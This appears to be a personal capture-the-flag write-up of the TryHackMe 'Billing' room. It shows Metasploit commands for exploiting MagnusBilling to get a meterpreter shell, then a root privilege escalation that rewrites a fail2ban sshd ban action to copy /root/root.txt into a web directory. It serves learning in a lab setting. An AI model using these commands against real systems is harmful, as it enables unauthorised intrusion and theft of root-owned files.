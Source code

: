 
2025-03-31 20:59

Source: #tryhackme #Boot2root #privesc 

Web page at port 80 which has a login page
### Enumeration 

Dirsearch shows a lot of options 
`README.md` holds version number of the service running on the app (i.e. MagnusBilling)

Then I did a bit of digging online and found [this](https://eldstal.se/advisories/230327-magnusbilling.html). (This didn't work)
### Exploiting 

Because this exploit was on Metasploit we do it that way 
below is the list of commands used to obtain meterpreter shell from start to end 
```
msfconsole 
search MagnusBilling
use 0 
set LHOST tun0
set RHOSTS billing.thm
exploit 
```

After getting the meterpreter shell type `shell` to get access to all Unix shell commands 
### Privesc 

`sudo -l` shows that `Fail2ban` runs as root

Fail2ban-client is a command-line tool that helps in managing the Fail2ban service. Fail2ban is a security tool that protects your server from potential threats like brute-force attacks by monitoring the log files for specific patterns (typically failed login attempts) and taking action, such as temporarily banning the offending IP addresses.

With the fail2ban-client, you can interact with the Fail2ban service to perform actions such as starting or stopping jails, viewing or updating settings, and checking the status of different jails on your server. Essentially, it helps you control how your server responds to suspicious activities to keep it secure.

I mainly read [this](https://juggernaut-sec.com/fail2ban-lpe/) to understand how I could leverage PE

Since I couldn’t edit the config files, I had to get a bit creative and think outside the box to figure out my next move. I decided to do a bit of reading on the [fail2ban man page](https://linux.die.net/man/1/fail2ban-client). I found out we could use the binary to enumerate the information necessary. Furthermore, we could use it to perform the exploit as well.


First up, I needed to enumerate the active jails on the system to see what I was working with:

```
sudo /usr/bin/fail2ban-client status
```

`SSHD` was set as one of the jails, so we figure out what actions from the `action.d` folder it has set up on it:

```
sudo /usr/bin/fail2ban-client get sshd actions
```

Next, we add an action for the `iptables-multiport` to run when an `ip` gets banned on the `sshd` service. This action will be for the binary to read the root.txt file.
modified the **actionban** rule to **read** `**/root/root.txt**` and store the result in a publicly accessible location:

```
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /var/www/html/mbilling/lib/icepay/root_exposed.txt && chmod 777 /var/www/html/mbilling/lib/icepay/root_exposed.txt'"
```

To force `fail2ban` to execute the malicious action, I **banned an IP**:

```
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

Now that `root.txt` was exposed, I **retrieved the final flag**:
```
cat /var/www/html/mbilling/lib/icepay/root_exposed.txt
```
### References
[TryHackMe | Billing](https://tryhackme.com/room/billing)

[CTF Chronicles: Billing | THM – NATSec](https://natsecure.wordpress.com/2025/03/08/ctf-chronicles-billing-thm/)